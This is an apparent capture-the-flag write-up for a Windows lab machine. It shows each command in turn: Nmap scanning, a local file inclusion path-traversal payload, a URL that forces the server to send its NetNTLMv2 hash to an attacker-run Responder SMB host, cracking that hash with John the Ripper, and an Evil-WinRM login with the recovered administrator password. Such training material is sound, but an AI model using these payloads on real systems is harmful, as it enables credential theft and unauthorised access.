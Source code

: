 # Responder Write-up

## Introduction

Windows is the most widely used operating system globally due to its user-friendly graphical interface. With approximately 85% market share, it becomes a critical OS to target. Most organizations use Active Directory to set up their Windows domain networks. Microsoft employs NTLM (New Technology LAN Manager) and Kerberos for authentication services. Despite known vulnerabilities, NTLM remains widely deployed to maintain compatibility with legacy clients and servers.

This lab focuses on exploiting a file inclusion vulnerability on a webpage served on a Windows machine to collect the NetNTLMv2 challenge of the user running the web server. We will use Responder to capture a NetNTLMv2 hash and John the Ripper to test millions of potential passwords.

## Enumeration

We begin by scanning the host for open ports and running services using Nmap:

```bash
nmap -p- --min-rate 1000 -sV 10.129.128.223
```

Nmap detects that the machine is running Windows with an Apache web server on port 80 and WinRM on port 5985.

## Website Enumeration

Accessing `http://[target ip]` redirects to `http://unika.htb`. We add an entry to the `/etc/hosts` file to resolve this domain:

```bash
echo "10.129.128.223 unika.htb" | sudo tee -a /etc/hosts
```

The website presents a web design business landing page with a language selection option. Changing the language reveals a potential Local File Inclusion (LFI) vulnerability via the `page` parameter.

## Exploiting the LFI Vulnerability

We test the LFI vulnerability by accessing common system files:

```bash
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

The contents of the `hosts` file are displayed, confirming the vulnerability.

## Capturing the Challenge with Responder

We exploit this vulnerability to include a file on our attacker machine via SMB, capturing the NetNTLMv2 hash. We use Responder to set up a malicious SMB server:

```bash
sudo responder -I tun0
```

Accessing the following URL forces the server to connect to our machine:

```bash
http://unika.htb/?page=//10.10.14.25/somefile
```

Responder captures the NetNTLMv2 hash of the Administrator user.

## Cracking the Hash

We use John the Ripper to crack the captured hash:

```bash
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

The password for the Administrator user is cracked: `badminton`.

## Connecting via WinRM

We use Evil-WinRM to connect to the WinRM service with the obtained credentials:

```bash
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```

The flag is located in `C:\Users\mike\Desktop\flag.txt`.

Congratulations! You can now view the contents of the `flag.txt` file:

```bash
type C:\Users\mike\Desktop\flag.txt
```

---


